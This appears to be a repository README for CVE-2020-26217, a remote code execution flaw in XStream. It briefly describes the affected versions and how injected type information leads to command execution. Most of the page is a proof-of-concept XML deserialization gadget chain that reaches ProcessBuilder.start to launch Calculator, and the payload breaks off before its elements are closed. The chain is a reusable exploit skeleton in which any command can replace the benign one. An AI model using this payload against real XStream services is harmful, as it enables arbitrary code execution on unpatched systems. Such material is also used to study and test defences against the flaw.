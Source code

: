 ### CVE-2020-26217
#### Vulnerability Information
 1. Vulnerability
    - CVE-2020-26217: XStream can be used for Remote Code Execution.
 2. Affected Versions
    - All versions until and including version 1.4.13 are affected, if using the version out of the box. No user is affected, who followed the recommendation to setup [XStream's security framework](https://x-stream.github.io/security.html#f
ramework) with a whitelist.
 3. Description
    - The processed stream at unmarshalling time contains type information to recreate the formerly written objects. XStream creates therefore new instances based on these type information. An attacker can manipulate the processed input stream and replace or inject objects, that can execute arbitrary shell commands.
    - This issue is a variation of CVE-2013-7285, this time using a different set of classes of the Java runtime environment, none of which is part of the XStream default blacklist. The same issue has already been reported for Strut's XStream plugin in CVE-2017-9805, but the XStream project has never been informed about it.

#### POC
```xml
<map>
    <entry>
        <jdk.nashorn.internal.objects.NativeString>
            <flags>0</flags>
            <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
                <dataHandler>
                    <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
                        <contentType>text/plain</contentType>
                        <is class='java.io.SequenceInputStream'>
                            <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                                <iterator class='javax.imageio.spi.FilterIterator'>
                                    <iter class='java.util.ArrayList$Ittr'>
                                        <cursor>0</cursor>
                                        <lastRet>-1</lastRet>
                                        <expectedModCount>1</expectedModCount>
                                        <outer-class>
                                            <java.lang.ProcessBuilder>
                                                <command>
                                                    <string>open</string>
                                                    <string>-a</string>
                                                    <string>Calculator</string>
                                                </command>
                                            </java.lang.ProcessBuilder>
                                        </outer-class>
                                    </iter>
                                    <filter class='javax.imageio.ImageIO$ContainsFilter'>
                                        <method>
                                            <class>java.lang.ProcessBuilder</class>
                                            <name>start</name>
                                            <parameter-types/>
                                        </method>
                                        <name>start</name>
                                    </filter>
                                    <next/>
                                </iterator>
                                <type>KEYS</type>
                            </e>
                            <in class='java.io.ByteArrayInputStream'>
                                <buf></buf>
                                <pos>0</pos>
                                <mark>0</mark>
```
